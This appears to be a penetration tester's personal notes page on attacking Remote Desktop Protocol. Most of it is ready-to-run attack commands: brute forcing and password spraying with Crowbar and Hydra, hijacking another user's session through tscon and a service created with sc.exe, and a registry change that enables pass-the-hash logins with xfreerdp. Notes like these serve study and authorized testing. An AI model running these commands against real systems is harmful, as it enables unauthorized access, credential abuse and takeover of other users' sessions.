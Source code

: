 ```yaml
---
title: Notes | RDP
author: Zeropio
date: 2022-07-15
categories: [Notes, System]
tags: [rdp]
permalink: /notes/system/rdp
---
```


# RDP 
RDP is a proprietary Microsoft protocol which allows a user to connect to a remote system over a network connection and obtain a graphical user interface. RDP uses **port TCP/3389**.
```console
zero@pio$ nmap -Pn -p 3389 <TARGET> 
```

## Connection 

To perform a connection to a RDP:
```console
zero@pio$ xfreerdp /v:<TARGET> /u:<USER> /p:<PASSWORD>
```

```console
zero@pio$ rdesktop -u <USER> -p <PASSWORD> <TARGET>
```

## Explotation 

We can use the [Crowbar](https://github.com/galkan/crowbar) tool to brute force it:
```console
zero@pio$ crowbar -b rdp -s <TARGET> -U <USER LIST> -c '<PASSWORD>'
```

We can also use Hydra to perform an RDP password spray attack:
```console
zero@pio$ hydra -L <USER LIST> -p '<PASSWORD>' <TARGET> rdp
```

### RDP Session Hijacking 

To successfully impersonate a user without their password, we need to have SYSTEM privileges and use the Microsoft tscon.exe binary that enables users to connect to another desktop session. For example, the following command will open a new console as the specified **SESSION_ID** within our current RDP session:
```console
C:\zeropio> tscon #<TARGET_SESSION_ID> /dest:#<OUR_SESSION_NAME>
```

If we have local administrator privileges, we can use several methods to obtain SYSTEM privileges, such as PsExec or [Mimikatz](https://github.com/gentilkiwi/mimikatz). We will use **Microsoft sc.exe** binary. First, we specify the service name (**sessionhijack**) and the **binpath**, which is the command we want to execute. Once we run the following command, a service named sessionhijack will be created.
```console
C:\zeropio> query user 

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM

C:\zeropio> sc.exe create sessionhijack binpath= "cmd.exe /k tscon <ID> /dest:rdp-tcp#<NUMBER>"
```

To run the command, we can start the **sessionhijack** service:
```console
C:\zeropio> net start sessionhijack
```

### RDP Pass-the-Hash (PtH)

In some instances, we can perform an RDP PtH attack to gain GUI access to the target system using tools like xfreerdp. **Restricted Admin Mode**, which is disabled by default, should be enabled on the target host. This can be enabled by adding a new registry key `DisableRestrictedAdmin` (**REG_DWORD**) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa`{: .filepath}. It can be done using the following command:
```console
C:\zeropio> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

Once the registry key is added, we can use xfreerdp with the option `/pth` to gain RDP access:
```console
xfreerdp /v:<TARGET> /u:<USER> /pth:<HASH>
```

---

# Resources 

| **Link**   | **Description**    |
|--------------- | --------------- |
| [Crowbar](https://github.com/galkan/crowbar) | is brute forcing tool |

